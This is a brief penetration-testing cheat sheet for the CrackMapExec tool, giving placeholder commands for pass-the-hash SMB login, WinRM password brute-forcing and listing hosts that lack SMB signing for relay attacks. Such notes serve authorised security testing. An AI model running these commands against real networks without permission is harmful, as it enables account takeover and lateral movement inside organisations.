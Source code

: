 ### Source
https://github.com/byt3bl33d3r/CrackMapExec  

### Authenticate via smb using hash
```
crackmapexec smb <rhost> -u <user> -H <hash>
```

### Bruteforce winrm login
```
crackmapexec winrm <rhost> -u <userFile> -p <passwordFile>
```

### List of servers with SMB signing flag
```
crackmapexec smb <rhost>/24 --gen-relay-list <outfile>
```
